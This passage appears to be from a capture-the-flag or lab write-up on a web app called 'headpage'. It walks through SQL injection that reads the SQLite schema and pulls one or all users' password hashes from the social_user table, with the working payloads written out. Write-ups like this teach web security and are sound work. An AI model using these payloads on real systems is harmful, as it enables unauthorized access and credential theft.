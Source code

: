 
Now accessing the created user's profile...

![SQL leak2](/assets/headpage/sql_leak2.png)

_Nice_. Sifting through the info we got, two table names pop out from the rest: `social_file` and `social_user`. Another table, `social_file_owner_id_4c649dbe`, will come in handy later also.

By performing a similar injection, we can get the table's schema, as such: `a',(SELECT sql FROM sqlite_master WHERE name='social_user'))--`

Which returns:

```
a CREATE TABLE "social_user" ("id" integer NOT NULL PRIMARY KEY AUTOINCREMENT, "username" varchar(16) NOT NULL UNIQUE, "password" varchar(16) NOT NULL, "first_name" varchar(64) NOT NULL, "last_name" varchar(64) NOT NULL, "about" text NULL)
```

## Leaking a password Hash

Using the information we got and the same technique, we can now exfiltrate sensitive information of one `a',(SELECT password FROM social_user WHERE id=1))` or all `a',(SELECT group_concat(password) FROM social_user))` users

![SQL leak3](/assets/headpage/sql_leak3.png)
